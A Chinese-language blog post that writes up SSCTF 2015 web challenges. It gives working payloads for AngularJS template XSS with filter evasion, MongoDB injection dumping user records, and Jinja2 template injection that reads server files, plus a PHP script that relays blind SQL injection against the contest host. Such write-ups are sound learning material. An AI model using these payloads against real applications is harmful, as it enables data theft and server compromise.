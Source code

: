 title: ssctf2015_writeup
date: 2016-03-01 12:40:12
tags:
- Blogs
- ctf
categories:
- Blogs
---

刚开学没什么事打了2月2728的ssctf，结果被web刷的一愣一愣的，看了出来的writeup才感觉是点儿蛋疼的，整理下writeup看看...

<!--more-->

# WEB

## web1 Up!Up!Up!(文件上传)

![](/img/ssctf/web1.png)

看了出来的writeup，我才第一次知道上传过滤还能这么写。。。
原洞是来自[http://www.wooyun.org/bugs/wooyun-2015-0125982](http://www.wooyun.org/bugs/wooyun-2015-0125982)

看着真的是叼，把那个content-type大小写改下就过了...
![](/img/ssctf/web1_1.png)

## Can You Hit Me？（augularjs xss）
![](/img/ssctf/web2.png)
打开是这样的：
![](/img/ssctf/web2_1.png)

稍微测试下发现对script,alert,on的过滤都是替换一次，甚至大小写都没有过滤，有点儿傻的，但是却把<这样的替换为_，于是想了一天也没想明白怎么过。

找到一篇博客[http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html](http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html)

结果发现augularjs可以不需要尖括号，找到一个payload：
```
{{
'a'.constructor.prototype.charAt=[].join;
eval('x=1} } };alert(1)//');
}}
```
稍微改下
```
xss={{%27a%27.coonnstructor.prototype.charAt=[].join;$evevalal(%22m=1)%20}%20};alalertert(123)//%22};}}
```

##  Legend？Legend！(mongdb注入)
![](/img/ssctf/web3.png)
测试下发现sql注不动，那么估计就是mongdb了，那么又是这篇文章了：
[http://drops.wooyun.org/tips/3939](http://drops.wooyun.org/tips/3939)
payload:
```
5%27});return%20{title:tojson(db.user.find()[0])}//
```
注到一个user数据，登陆下，找找就能找到flag了。

##  Flag-Man
![](/img/ssctf/web4.png)
从这里就没点开看了，那么就先贴上别人的writeup吧。

登录github授权，然后发现在Your Profile中的Name是控制/users中的name

Name是可控制的,遍历目录 最后读取文件 得到flag
[http://drops.wooyun.org/web/13057](http://drops.wooyun.org/web/13057)

payload:
```
{%for c in [].__class__.__base__.__subclasses__()%}{%if c.__name__ == 'catch_warnings'%}{{c.__init__.func_globals['linecache'].__dict__['__builtins__'].open('ssctf.py').read()}}{%endif%}{%endfor%}
```
访问user目录get flag

##  AFSRC-Market
![](/img/ssctf/web5.png)

 注入在add_cart.php页面，提交id=xxx  cost为0 判断有注入，但是不能直接得到数据。于是中转注入

```
 $opts = array ('http' => array ('header'=>'Cookie: PHPSESSID=1;'));
$context = stream_context_create($opts);
$html = file_get_contents('http://edb24e7c.seclover.com/add_cart.php?id=0x'.bin2hex($_GET[x]), false, $context);
$html = file_get_contents('http://edb24e7c.seclover.com/userinfo.php', false, $context);
preg_match('/cost: (.*?)<\/p>/is',$html,$res);
echo $res[1]==0 ? 0 : 1;
```
得到提示
![](/img/ssctf/web5_1.png)
到这里就跑吧，爆破salt。
